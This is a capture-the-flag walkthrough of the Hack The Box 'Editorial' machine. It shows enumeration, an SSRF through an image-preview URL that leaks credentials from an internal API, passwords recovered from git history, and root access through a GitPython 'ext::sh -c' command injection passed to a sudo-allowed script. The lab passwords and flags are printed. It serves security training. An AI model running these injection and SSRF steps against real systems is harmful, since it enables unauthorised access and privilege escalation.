

---
tags:
  - Hack The Box
  - Editorial
---

# Editorial


## Enumeration 

```bash
┌──(beardnetwork㉿kali)-[~/Desktop/htb/editorial]
└─$ nmap -sC -sV 10.10.11.20      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-27 14:36 +08
Nmap scan report for 10.10.11.20
Host is up (0.019s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.48 seconds
```

The machine running a website on port 80. port 80 redirect to **editorial.htb**. Let’s add this domain to /etc/hosts file:

```bash
10.10.11.20 editorial.htb
```

## Website Port: 80 

* URL: https://editorial.htb


In this page, we have 2 links /**upload** and /**about** from the header. Next we will try to brute force the directory using FFUF.

```bash
┌──(beardnetwork㉿kali)-[~/Desktop/htb/editorial]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://editorial.htb/FUZZ               

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://editorial.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 25ms]
# Copyright 2007 James Fisher [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 23ms]
# Priority-ordered case-sensitive list, where entries were found [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 26ms]
# This work is licensed under the Creative Commons [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 27ms]
# [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 29ms]
# on at least 3 different hosts [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 29ms]
# directory-list-2.3-small.txt [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 30ms]
#                       [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 32ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 35ms]
# [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 35ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 38ms]
[Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 40ms]
# [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 41ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 48ms]
about [Status: 200, Size: 2939, Words: 492, Lines: 72, Duration: 53ms]
upload [Status: 200, Size: 7140, Words: 1952, Lines: 210, Duration: 26ms]
[Status: 200, Size: 8577, Words: 1774, Lines: 177, Duration: 21ms]
:: Progress: [87664/87664] :: Job [1/1] :: 1104 req/sec :: Duration: [0:01:16] :: Errors: 0 ::
```

We don’t see any other directories besides these 2 directories. Let’s open upload directory.

- URL : [http://editorial.htb/upload](http://editorial.htb/upload)


This page is interesting, we can preview an image from a file or url. Let’s try to upload a php reverse shell.


Click preview, and open the image in a new tab


```bash
http://editorial.htb/static/uploads/aa5f157f-4828-4072-ab7b-598ea0ef45fa
```
As we can see, the file name renamed and the file extension is removed. When we open this the preview image in a new tab, the file downloaded directly, so it seems like we can’t execute any shell directly.

Next, let’s upload a valid image file and download the previewed file. We can see if the file using any software like ImageMagick by using exiftool.

```bash
┌──(beardnetwork㉿kali)-[~/Downloads]
└─$ exiftool 51UKx1LYC8L._AC_UF894,1000_QL80_.jpg 
ExifTool Version Number         : 12.76
File Name                       : 51UKx1LYC8L._AC_UF894,1000_QL80_.jpg
Directory                       : .
File Size                       : 85 kB
File Modification Date/Time     : 2024:07:13 15:24:52+08:00
File Access Date/Time           : 2024:07:13 15:25:02+08:00
File Inode Change Date/Time     : 2024:07:13 15:24:52+08:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 703
Image Height                    : 1000
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 703x1000
Megapixels                      : 0.703
```

Nothing interesting, we don’t see any software used here.

## SSRF VULNERABILITY

The interesting part is the url preview, this feature might be vulnerable to SSRF. First, open your burpsuite to analyze the response.

Let’s insert localhost address.


Response :


The response is showing a image directory location.

This machine might have another port running locally, we can bruteforce the port by using burp intruder, and add a port number from 1–65535. Let’s do it!


Result :

After completed, use filter to check the different result on the response.

/**upload-cover** gives us the response:



**/static/uploads/3bddd5a0–0802–4335-a6b2-db4b0a914b7d** gives us the following response:


we got various api endpoints. Here this particular endpoint seems interesting “/api/latest/metadata/messages/authors” let’s try to trigger it


we got the following response in the burp :


we are successfully able to retrieve the user credential of dev, Now we can try login with ssh.

```bash
┌──(kali㉿kali)-[~/Desktop/htb]
└─$ ssh dev@10.10.11.20 
The authenticity of host '10.10.11.20 (10.10.11.20)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.20' (ED25519) to the list of known hosts.
dev@10.10.11.20's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Jul 21 07:01:51 AM UTC 2024

  System load:  0.0               Processes:             230
  Usage of /:   64.2% of 6.35GB   Users logged in:       1
  Memory usage: 18%               IPv4 address for eth0: 10.10.11.20
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Jul 21 05:44:18 2024 from 10.10.14.50
dev@editorial:~$ ls
apps  user.txt
dev@editorial:~$ cat user.txt 
67af4609c9c2501ce451a...
dev@editorial:~$ 
```

Here we successfully pwned the user flag.

After some enumeration i was able to know there is one more user named “prod” and in apps folder we have .git folder. Lets check what we can get from there.

```bash
dev@editorial:~/apps$ ls -la
total 20
drwxrwxr-x 5 dev dev 4096 Jul 21 05:52 .
drwxr-x--- 5 dev dev 4096 Jul 21 05:52 ..
drwxrwxr-x 2 dev dev 4096 Jul 21 05:55 app_api
drwxrwxr-x 4 dev dev 4096 Jul 21 05:54 app_editorial
drwxr-xr-x 8 dev dev 4096 Jul 21 05:52 .git
dev@editorial:~/apps$ cd .git/
dev@editorial:~/apps/.git$ ls
branches  COMMIT_EDITMSG  config  description  HEAD  hooks  index  info  logs  objects  refs
dev@editorial:~/apps/.git$ cd logs/
dev@editorial:~/apps/.git/logs$ ls
HEAD  refs
dev@editorial:~/apps/.git/logs$ cat HEAD
0000000000000000000000000000000000000000 3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8 dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682905723 -0500      commit (initial): feat: create editorial app
3251ec9e8ffdd9b938e83e3b9fbf5fd1efa9bbb8 1e84a036b2f33c59e2390730699a488c65643d28 dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682905870 -0500      commit: feat: create api to editorial info
1e84a036b2f33c59e2390730699a488c65643d28 b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906108 -0500      commit: change(api): downgrading prod to dev
b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae dfef9f20e57d730b7d71967582035925d57ad883 dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906471 -0500      commit: change: remove debug and update api port
dfef9f20e57d730b7d71967582035925d57ad883 8ad0f3187e2bda88bba85074635ea942974587e8 dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb> 1682906661 -0500      commit: fix: bugfix in api port endpoint
```

Here in git log this particular commit “1e84a036b2f33c59e2390730699a488c65643d28” had something related to user prod. Let us check this particular commit.

```python
dev@editorial:~/apps/.git/logs$ git show 1e84a036b2f33c59e2390730699a488c65643d28
commit 1e84a036b2f33c59e2390730699a488c65643d28
commit 1e84a036b2f33c59e2390730699a488c65643d28
Author: dev-carlos.valderrama <dev-carlos.valderrama@tiempoarriba.htb>
Date:   Sun Apr 30 20:51:10 2023 -0500

    feat: create api to editorial info                                                                                                       
    
    * It (will) contains internal info about the editorial, this enable
       faster access to information.

diff --git a/app_api/app.py b/app_api/app.py
new file mode 100644
index 0000000..61b786f
--- /dev/null
+++ b/app_api/app.py
@@ -0,0 +1,74 @@
+# API (in development).
+# * To retrieve info about editorial
+
+import json
+from flask import Flask, jsonify
+
+# -------------------------------
+# App configuration
+# -------------------------------
+app = Flask(__name__)
+
+# -------------------------------
+# Global Variables
+# -------------------------------
+api_route = "/api/latest/metadata"
+api_editorial_name = "Editorial Tiempo Arriba"
+api_editorial_email = "info@tiempoarriba.htb"
+
+# -------------------------------
+# API routes
+# -------------------------------
+# -- : home
+@app.route('/api', methods=['GET'])
+def index():
+    data_editorial = {
+        'version': [{
+            '1': {
+                'editorial': 'Editorial El Tiempo Por Arriba', 
+                'contact_email_1': 'soporte@tiempoarriba.oc',
+                'contact_email_2': 'info@tiempoarriba.oc',
+                'api_route': '/api/v1/metadata/'
+            }},
+            {
+            '1.1': {
+                'editorial': 'Ed Tiempo Arriba', 
+                'contact_email_1': 'soporte@tiempoarriba.oc',
+                'contact_email_2': 'info@tiempoarriba.oc',
+                'api_route': '/api/v1.1/metadata/'
+            }},
+            {
+            '1.2': {
+                'editorial': api_editorial_name, 
+                'contact_email_1': 'soporte@tiempoarriba.oc',
+                'contact_email_2': 'info@tiempoarriba.oc',
+                'api_route': f'/api/v1.2/metadata/'
+            }},
+            {
+            '2': {
+                'editorial': api_editorial_name, 
+                'contact_email': 'info@tiempoarriba.moc.oc',
+                'api_route': f'/api/v2/metadata/'
+            }},
+            {
+            '2.3': {
+                'editorial': api_editorial_name, 
+                'contact_email': api_editorial_email,
+                'api_route': f'{api_route}/'
+            }
+        }]
+    }
+    return jsonify(data_editorial)
+
+# -- : (development) mail message to new authors
+@app.route(api_route + '/authors/message', methods=['GET'])
+def api_mail_new_authors():
+    return jsonify({
+        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
+    }) # TODO: replace dev credentials when checks pass
+
+# -------------------------------
+# Start program
+# -------------------------------
+if __name__ == '__main__':
+    app.run(host='127.0.0.1', port=5001, debug=True)
(END)
```
We successfully got the prod’s password, from here we can easily log in to prod ssh.

```bash
┌──(kali㉿kali)-[~/Desktop/htb]
└─$ ssh prod@10.10.11.20
prod@10.10.11.20's password: 
Permission denied, please try again.
prod@10.10.11.20's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Jul 21 07:10:02 AM UTC 2024

  System load:  0.02              Processes:             236
  Usage of /:   64.3% of 6.35GB   Users logged in:       1
  Memory usage: 19%               IPv4 address for eth0: 10.10.11.20
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


prod@editorial:~$ 
```
let us check the privilege for prod user.

```bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

it can run some script with root privilege. So this can be our way to get our flag.

After a bit of search for the exploit for this i was able to find few resources which can help us get the root flag.


- URL : [https://security.snyk.io](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858?source=post_page-----0fba80ca64e8--------------------------------)


So in short we can run git-remote-ext command as a root user with the the help of that script.

At first i tried to spawn the /bin/bash shell with it using these commands:

```bash
prod@editorial:/opt/internal_apps/clone_changes$ cat clone_prod_change.py 
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
prod@editorial:/opt/internal_apps/clone_changes$ 
```

Let’s try the exploit mentioned in the POC I reference:

```bash
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c touch% /tmp/pwned new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:/opt/internal_apps/clone_changes$ cat /tmp/pwned
prod@editorial:/opt/internal_apps/clone_changes$ 
```
Since we are seeing error related to the python3 execution it means that the python file was executed as root user.

Now let’s tweak it to retrieve the root.txt contents from the /root directory.

```bash
prod@editorial:/opt/internal_apps/clone_changes$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/root'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c cat% /root/root.txt% >% /tmp/root new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
prod@editorial:/opt/internal_apps/clone_changes$ cat /tmp/root 
a249b4b9c9b00abadf5161e28dee8bfa
```


